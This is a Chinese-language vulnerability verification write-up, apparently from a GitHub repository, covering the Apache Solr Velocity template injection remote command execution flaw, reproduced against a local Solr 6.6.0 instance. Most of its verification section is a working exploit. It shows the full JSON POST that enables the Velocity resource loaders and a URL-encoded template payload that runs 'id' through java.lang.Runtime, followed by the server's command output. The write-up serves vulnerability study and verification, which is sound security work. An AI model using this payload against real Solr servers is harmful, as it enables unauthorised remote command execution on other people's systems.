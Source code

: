 ## Apache Solr Velocity模版注入远程命令执行漏洞验证

### 1.背景

2019年10月31日，国内安全媒体纰漏，国外的安全研究员S00pY在GitHub发布了Apache Solr Velocity模版注入远程命令执行的poc，经验POC真实有效，定级为严重；  

国内媒体的预警： https://mp.weixin.qq.com/s/RWG7nxwCMtlyPnookXlaLA  

### 2. 漏洞详情

1. 当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。  
2. Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的   params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。   
3. 当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。



### 3. 漏洞验证 

### 1. 下载solr-6.6.0，运行开启服务

	/Users/snow/Files/solr-6.6.0/bin
	bogon:bin snow$ ls
	init.d                  post                    solr.in.cmd
	install_solr_service.sh solr                    solr.in.sh
	oom_solr.sh             solr.cmd
	bogon:bin snow$ ./solr -e dih
	
	Starting up Solr on port 8983 using command:
	"/Users/snow/Files/solr-6.6.0/bin/solr" start -p 8983 -s "/Users/snow/Files/solr-6.6.0/example/example-DIH/solr"
	
	Waiting up to 180 seconds to see Solr running on port 8983 [\]
	Started Solr server on port 8983 (pid=24330). Happy searching!

	Solr dih example launched successfully. Direct your Web browser to http://localhost:8983/solr to visit the Solr Admin UI
	bogon:bin snow$
	
访问服务：http://localhost:8983/solr/#/   
![](https://github.com/shadow-horse/VulnerabilityAnalysis/blob/master/Apache%20Solr/velocity%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5/localhostpng.png)

### 2. 访问具体的节点，查看conf配置 
![](https://github.com/shadow-horse/VulnerabilityAnalysis/blob/master/Apache%20Solr/velocity%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5/nodes.png)  

![](https://github.com/shadow-horse/VulnerabilityAnalysis/blob/master/Apache%20Solr/velocity%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5/config.png)


### 3. 更改配置，执行命令

1. 利用config，更改配置，通过POST提交JSON格式请求

		POST /solr/solr/config HTTP/1.1
		Host: localhost:8983
		Content-Type: application/json
		Content-Length: 259
		
		{
 		 "update-queryresponsewriter": {
   		 "startup": "lazy",
   		 "name": "velocity",
   		 "class": "solr.VelocityResponseWriter",
   		 "template.base.dir": "",
   		 "solr.resource.loader.enabled": "true",
   		 "params.resource.loader.enabled": "true"
 		 }
		}
		
		
		HTTP/1.1 200 OK
		Content-Type: text/plain;charset=utf-8
		Content-Length: 149

		{
  		"responseHeader":{
  			"status":0,
    		"QTime":263},
  		"WARNING":"This response format is experimental.  It is likely to change in the future."}  
  		
  		

2. 执行命令：  
select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

		GET /solr/solr/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
		Host: localhost:8983
		Content-Length: 2
		User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
		Accept: application/json,text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
		Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
		Accept-Encoding: gzip, deflate
		Connection: close
		Upgrade-Insecure-Requests: 1
		Content-Length: 0

		
		
		HTTP/1.1 200 OK
		Content-Type: text/html;charset=utf-8
		Content-Length: 344

 		0 uid=501(snow) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)  
 		
 		




参考：   
https://mp.weixin.qq.com/s/RWG7nxwCMtlyPnookXlaLA   
 
https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt  

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt  

	
